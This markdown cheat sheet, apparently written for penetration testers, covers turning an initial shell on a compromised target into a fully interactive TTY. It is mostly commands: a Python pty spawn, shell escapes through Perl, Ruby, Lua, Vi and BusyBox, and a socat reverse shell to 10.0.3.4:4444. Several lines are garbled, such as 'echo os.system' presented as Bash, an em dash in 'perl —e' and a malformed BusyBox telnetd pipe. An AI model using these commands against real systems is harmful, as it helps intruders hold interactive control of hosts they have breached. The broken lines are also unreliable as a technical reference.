# Spawning TTY Shell

After getting intial shell, the next step will be to "upgrading" shell into a fully interactive TTY so we can features such as interactive commands (such as su and ssh), text editors, tab complete, job control and more.

The quick win command using Python pty module:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Then, set PATH and TERM if they are missing (allow also to acsses other bins):

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
```

## Others ways to spawn TTY shell

Use the following methods if Python not found on the target / not supported.

Bash:

```
echo os.system('/bin/bash')
/bin/sh -i
```

Perl:

```
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

Ruby console:

```
 exec "/bin/sh"
```
Lua console:

```
os.execute('/bin/sh')
```
Vi:

```
:!bash
:set shell=/bin/bash:shell
```

BusyBox:

```
/bin/busybox telnetd -|/bin/sh -p9999
```

Socat (altrenate to netcat):

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```

If Socat not installed, there are standalone binaries that can be downloaded from this Github repo: https://github.com/andrew-d/static-binaries
